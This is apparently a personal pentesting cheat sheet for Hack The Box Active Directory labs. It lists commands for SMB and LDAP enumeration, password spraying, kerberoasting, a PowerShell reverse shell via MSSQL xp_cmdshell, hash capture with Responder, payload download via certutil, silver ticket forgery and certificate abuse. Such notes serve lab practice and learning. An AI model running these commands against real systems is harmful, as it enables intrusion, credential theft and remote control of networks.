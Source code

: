 ```yaml
---
layout: post
title: AD Notes
categories: [writeups]
tags: [notes]
date: 2025-03-02
img_path: '/assets/img/writeups/htb/cat/'
image:
  path: 
---
```


# Enumerating SMB (445)

- Enumerate Host
    - `netexec smb [ip]`
    - `crackmapexec smb [ip]`
    - `nxc smb [ip]`
- List Shares
    - netexec smb [host/ip] -u [user] -p [pass] --shares
    - netexec smb [host/ip] -u guest -p '' --shares
    - smbclient -N -L //[ip]
- Enumerate Files
    - smbclient //[ip]/[share] -N
    - smbclient //[ip]/[share] -U [username%password]
    - smbclient "//10.10.X.X/Some Share" -U rose%Kxxxxxxxx
    - netexec smb -u [user] -p [pass] -M spider_plus
    - smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth
    - manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]
- User enumeration
    - RID Cycling
        - lookupsid.py guest@[ip] -no-pass
        - netexec smb [ip] -u guest -p '' --rid-brute
        - netexec smb CICADA-DC -u guest -p '' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users
    - SAM Remote Protocol - samrdump.py [domain]/[user]:[pass]@[ip]
- Check for Vulnerabilities - nmap --script smb-vuln* -p 139,445 [ip]

# rpc
`rpcclient -U 'xxxxx.htb/' 10.10.x.x`
in rpcclient 
`lookupnames administrator`
this will privide a sid
`lookupsids <sid>`
then to manually brute the users change the digits of 500
ex 501 502 503 etc (same as rid-brute) 

# LDAP 

`mkdir ldapdump && cd ldapdump`
`sudo ldapdomaindump ldaps://10.10.x.x -u '<DOMAIN\USER>' -p '<pass>'`

## bloodhound
start neo4j before bloodhound
`sudo neo4j console`
`sudo bloodhound`
if data is in bloodhound from previous clear database...

to get domain info to import
`mkdir bloodhound && cd bloodhound`
`sudo bloodhound-python -d XXXXX.htb -u <user> -p <pass> -ns 10.10.X.X -c all`

in bloodhound import all the files



# MSSQL


`python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py <user>:'<MSSQLPASSWORD>'@10.10.X.X

check to see if xp_cmdshell can be enabled
if so try a powershell rev shell
`nc -nvlp 1337`
`xp_cmdshell powershell -e <base64-rev>`

can get hash from xp_dirtree using responder
lhost:
`sudo responder -I tun0`
mssql
`xp_dirtree \\<$LHOST>\fake\share`


# netexec / crackmapexec

will check a list of users and passwords to see if you can connect via ldap
`netexec ldap 10.10.X.X -u users -p passes --continue-on-success | grep +`

will check a list of users and passwords to see if you can connect to with evil-winrm 
`netexec winrm 10.10.X.X -u users -p passes --continue-on-success | grep +`

kerberoasting need to look into more
`netexec ldap 10.10.X.X -u rose -p 'Kxxxxxxxx' --kerberoasting kerberoast.hash`

# evil-winrm
`evil-winrm -i 10.10.X.X -u <user> -p <pass>`
if file is in cwd where evil-winrm is runnning
`upload winpeas.exe`
## upload winpeas
`cd \programdata`
`certutil.exe -urlcache -split -f "http://10.10.X.X:8000/winPEASany.exe" winpeas.exe`

winpeas, poverview.ps1, mimikatz, rubeus, A bunch of tools in /opt/SharpCollection certify.exe, runascs etc

findstr is equiv to grep
can run `netstat -an | findstr <port>` 


# Silver ticket
can create the ntlm hash for the ticket. 
using plaintext2ntlm.py 
can run from powershell `get-addomain` to get Domain SID
```
NTLM: <ntlm>
Domain-sid: <sid>
SPN:? 
```
`python3 /usr/share/doc/python3-impacket/examples/ticketer.py -nthash <ntlm> -domain-sid <sid> -domain XXXXX.htb -spn TotallylegitSPN/dc.XXXXX.htb administrator`

in output should see
 saving ticket in <administrator.ccache>

`KRB5CCNAME=administrator.ccache python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -k administrator@dc.XXXXX.htb`

with no password

this will log you in as admin for mssql and can now do things like enable_xp_cmdshell

maybe for other attack vectors like reading writing files
 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md

 if you can write files checkout (run line 8-15 as 1 line)
https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/writefile_bulkinsert.sql

# Golden ticket



# Win Privesc
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md


# Escalating through certificates

faketime 'now + 7 hours' /bin/bash -c "certipy-ad shadow auto -u juditxxxx@xxxxxx.htb -p judxxxxxx -account managxxxxxx -target DC01.xxxxxx.htb"
